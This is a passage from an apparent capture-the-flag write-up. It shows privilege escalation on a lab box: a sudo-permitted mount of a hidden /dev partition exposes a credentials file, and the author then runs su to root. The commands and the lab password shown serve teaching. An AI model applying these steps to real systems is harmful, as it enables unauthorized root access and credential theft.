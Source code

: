 Definitely, willow can run mount as root, but how can we use mount so that we get root shell or we have to mount any other directory, which we didn’t explored yet.

<aside>
💡

Room hint: Where, on a Linux system, would you first look for unmounted partitions?

</aside>

Ok, it means willow is allowed to mount disks from the `/dev` directory — the default location for unmounted partitions, amongst other things. Let’s check!

<img width="1875" height="369" alt="image 4" src="https://github.com/user-attachments/assets/fc0df3c9-23ef-4e5e-9885-59de519c1aab" />

There’s a hidden_bakup file. Let’s see what it contains.

Mount it and have to look at it.

```python
willow@willow-tree:~$ cd /mnt
willow@willow-tree:/mnt$ ls
creds
```

Before mounting, there is an empty creds named folder inside /mnt that means , we are not the first one using it, someone before us already used it. Let’s mount in it.

```bash
willow@willow-tree:/mnt$ sudo /bin/mount /dev/hidden_backup /mnt/creds
willow@willow-tree:/mnt$ cd creds
willow@willow-tree:/mnt/creds$ ls -la
total 6
drwxr-xr-x 2 root root 1024 Jan 30  2020 .
drwxr-xr-x 3 root root 4096 Jan 30  2020 ..
-rw-r--r-- 1 root root   42 Jan 30  2020 creds.txt
willow@willow-tree:/mnt/creds$ cat creds.txt
root:REDACTED
willow:U0ZZJLGYhNAT2s

```

Here we go! root’s password in plain text. Now, just switch to user root with the help of this password.

```bash
willow@willow-tree:/mnt/creds$ su root
Password: 
root@willow-tree:/mnt/creds# cd /root
root@willow-tree:~# ls -la
total 36
drwx------  5 root root 4096 Jan 30  2020 .
drwxr-xr-x 23 root root 4096 Jan 30  2020 ..
lrwxrwxrwx  1 root root    9 Jan 30  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  3 root root 4096 Jan 30  2020 .config
drwxr-xr-x  3 root root 4096 Jan 30  2020 .local
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
-rw-r--r--  1 root root  139 Jan 30  2020 root.txt
-rw-r--r--  1 root root   74 Jan 30  2020 .selected_editor
drwx------  2 root root 4096 Mar  1  2020 .ssh
```
